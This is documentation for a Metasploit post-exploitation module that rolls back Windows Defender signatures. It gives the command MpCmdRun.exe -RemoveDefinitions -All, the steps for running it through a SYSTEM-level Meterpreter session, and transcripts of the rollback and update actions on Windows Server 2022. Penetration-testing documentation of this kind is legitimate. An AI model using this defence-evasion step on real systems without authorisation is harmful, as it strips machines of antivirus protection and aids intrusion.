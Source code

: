 ## Vulnerable Application
### Overview
This module requires system privs

This module rolls back the signatures in Windows Defender to the
earliest signatures. The level of protection is somewhat indeterminate.
This action is accomplished by running the command:
`MpCmdRun.exe -RemoveDefinitions -All`

To recover, you can run `MpCmdRun.exe -UpdateSignatures`.
That will force Windows Defender to update the signatures
to the latest version available from Microsoft.

## Verification Steps
1. Get a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.
1. `use post/windows/manage/rollback_defender_signatures`
1. `set SESSION <ID of Meterpreter session>`
1. Optionally set the ACTION to run with `set ACTION <action to run>`
1. `run`

## Options
### ACTION
#### ROLLBACK
Rolls the Windows Defender signature definitions back to the earliest available signatures.

### UPDATE
Updates the Windows Defender signature definitions to the latest versions available from Microsoft.

## Scenarios
### ROLLBACK Action on Windows Server 2022
```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-BR0CCBA815B  172.28.94.235:45437 -> 172.28.82.203:4444 (172.28
                                                                            .82.203)

msf6 > use post/windows/manage/rollback_defender_signatures 
msf6 post(windows/manage/rollback_defender_signatures) > set SESSION 1 
SESSION => 1
msf6 post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Post action:

   Name      Description
   ----      -----------
   ROLLBACK  Rollback Defender signatures


msf6 post(windows/manage/rollback_defender_signatures) > run

[*] Removing all definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
[*] 
Service Version: 4.18.2207.7
Engine Version: 1.1.19600.3
AntiSpyware Signature Version: 1.375.652.0
AntiVirus Signature Version: 1.375.652.0

Starting engine and signature rollback to none...
Done!
[*] Post module execution completed
msf6 post(windows/manage/rollback_defender_signatures) > 
```

## UPDATE Action on Windows Server 2022
```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-BR0CCBA815B  172.28.94.235:45437 -> 172.28.82.203:4444 (172.28
                                                                            .82.203)

msf6 > use post/windows/manage/rollback_defender_signatures 
msf6 post(windows/manage/rollback_defender_signatures) > set SESSION 1 
SESSION => 1
msf6 post(windows/manage/rollback_defender_signatures) > set ACTION UPDATE 
ACTION => UPDATE
msf6 post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Post action:

   Name    Description
   ----    -----------
   UPDATE  Update Defender signatures


msf6 post(windows/manage/rollback_defender_signatures) > run

[*] Updating definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -SignatureUpdate
[*] Signature update started . . .
Service Version: 4.18.2207.7
Engine Version: 1.1.19600.3
AntiSpyware Signature Version: 1.375.652.0
AntiVirus Signature Version: 1.375.652.0
Signature update finished. No updates needed
[*] Post module execution completed
msf6 post(windows/manage/rollback_defender_signatures) > 
```
